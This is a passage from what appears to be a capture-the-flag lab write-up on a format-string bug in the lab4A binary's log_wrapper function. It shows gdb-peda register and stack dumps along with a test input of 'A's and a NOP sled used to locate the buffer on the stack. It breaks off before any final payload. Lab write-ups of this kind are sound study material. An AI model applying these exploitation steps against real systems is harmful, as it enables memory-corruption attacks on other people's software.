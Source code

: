 ```nasm
[------------------------------------stack-------------------------------------]
0000| 0xbffff5ec --> 0x8048a8b (<main+171>:	mov    eax,DWORD PTR [esp+0xc])
0004| 0xbffff5f0 --> 0x804b008 --> 0xfbad2c84
0008| 0xbffff5f4 --> 0x8048cda ("Starting back up: ")
0012| 0xbffff5f8 --> 0xbffff86a ("AAAAAAAA", '\220' <repeats 50 times>)
0016| 0xbffff5fc --> 0xbffff724 --> 0xbffff856 ("/levels/lab04/lab4A")
0020| 0xbffff600 --> 0x3
0024| 0xbffff604 --> 0x9 ('\t')
0028| 0xbffff608 --> 0xffc0003f
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x080489df in log_wrapper ()
```

The **ESP** register equals to `0xbffff5ec` which point to the *main()* function (`0x08048a8b`). Now, concerning the address of our buffer, as it will be passed as an argument to *snprinf()*, we can set another breakpoint in *log_wrapper()* and check the stack.

```nasm
gdb-peda$ break *log_wrapper+134
Breakpoint 2 at 0x8048983
gdb-peda$ run `python -c 'print 8 * "A" + 50 * "\x90"'`
Starting program: /levels/lab04/lab4A `python -c 'print 8 * "A" + 50 * "\x90"'`
[----------------------------------registers-----------------------------------]
EAX: 0xbffff86a ("AAAAAAAA", '\220' <repeats 50 times>)
EBX: 0xec
ECX: 0x1d
EDX: 0xbffff4ef --> 0x4b00800
ESI: 0x0
EDI: 0x0
EBP: 0xbffff5e8 --> 0xbffff688 --> 0x0
ESP: 0xbffff4b0 --> 0xbffff4ef --> 0x4b00800
EIP: 0x8048983 (<log_wrapper+134>:	call   0x80487c0 <snprintf@plt>)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048978 <log_wrapper+123>:	mov    DWORD PTR [esp+0x8],eax
   0x804897c <log_wrapper+127>:	mov    DWORD PTR [esp+0x4],ebx
   0x8048980 <log_wrapper+131>:	mov    DWORD PTR [esp],edx
=> 0x8048983 <log_wrapper+134>:	call   0x80487c0 <snprintf@plt>
   0x8048988 <log_wrapper+139>:	mov    DWORD PTR [esp+0x4],0x8048c90
   0x8048990 <log_wrapper+147>:	lea    eax,[ebp-0x10b]
   0x8048996 <log_wrapper+153>:	mov    DWORD PTR [esp],eax
   0x8048999 <log_wrapper+156>:	call   0x8048700 <strcspn@plt>
Guessed arguments:
arg[0]: 0xbffff4ef --> 0x4b00800
arg[1]: 0xec
arg[2]: 0xbffff86a ("AAAAAAAA", '\220' <repeats 50 times>)
[------------------------------------stack-------------------------------------]
0000| 0xbffff4b0 --> 0xbffff4ef --> 0x4b00800
0004| 0xbffff4b4 --> 0xec
0008| 0xbffff4b8 --> 0xbffff86a ("AAAAAAAA", '\220' <repeats 50 times>)
0012| 0xbffff4bc --> 0xb7e9eb73 (<__GI_strstr+19>:	add    ebx,0x12e48d)
0016| 0xbffff4c0 --> 0xb7e9548c (<malloc_init_state+12>:	add    ebx,0x137b74)
0020| 0xbffff4c4 --> 0xbffff86a ("AAAAAAAA", '\220' <repeats 50 times>)
0024| 0xbffff4c8 --> 0x8048cda ("Starting back up: ")
0028| 0xbffff4cc --> 0x804b008 --> 0xfbad2484
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 2, 0x08048983 in log_wrapper ()
```
